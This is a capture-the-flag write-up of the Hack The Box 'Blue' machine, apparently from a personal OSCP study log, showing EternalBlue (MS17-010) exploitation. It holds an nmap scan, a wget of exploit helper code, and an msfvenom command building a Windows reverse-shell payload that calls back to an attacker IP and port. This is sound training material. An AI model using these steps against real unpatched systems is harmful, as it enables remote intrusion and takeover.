

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/blue-easy
---

# ✅ Blue (Easy)

## Lesson Learn

.png>)

## **Report-Penetration**

**Vulnerable Exploit:** Eternal Blue (MS17-010) - CVE-2017-0144

**System Vulnerable:** 10.10.10.40

**Vulnerability Explanation:** The machine is vulnerable to MS17-010 which allow remote attackers to execute arbitrary code via crafted packets "Windows SMB Remote Execution Vulnerability."

**Privilege Escalation Vulnerability:** N/A

**Vulnerability Fix:** Recommend to patch the vulnerable.

**Severity:** Critical

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
nmap -sC -sV -T4 10.10.10.40
```

.png>)

## Enumeration

Let start enumerate with SMB service (139, 445) and find is there any vulnerable to this service. We have found that it is vulnerable to **MS17-010.** With successfully exploit this vulnerable, could allow attacker gain remote code execution on the machine.&#x20;

.png>)

## Exploitation MS17-010

Let search for public exploit to this vulnerable. We found the exploit code on **exploit-db.**

**Proof of Concept Code:** [**https://www.exploit-db.com/exploits/42315**](https://www.exploit-db.com/exploits/42315)

.png>)

Let copy the exploit code and change the file name **42315** to **exploit.py.** We found the link to download **mysmb.py** which is the requirement for this exploit work.

```
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
mv 42315.py mysmb.py
```

.png>)

Generate the window reverse shell payload.

```
msfvenom -p windows/shell_reverse_tcp -f exe lhost=10.10.14.10 lport=4444 > rev.exe
```



To make the exploit code work we need to customize some part of the code. First change the username from empty to **'guest'** or **'//'** and customize the location of the payload script.

.png>)

.png>)

Save the script and run against our target IP address with netcat listener on port 4444.

.png>)

.png>)

Let grab the flag and IP address of the machine.

.png>)
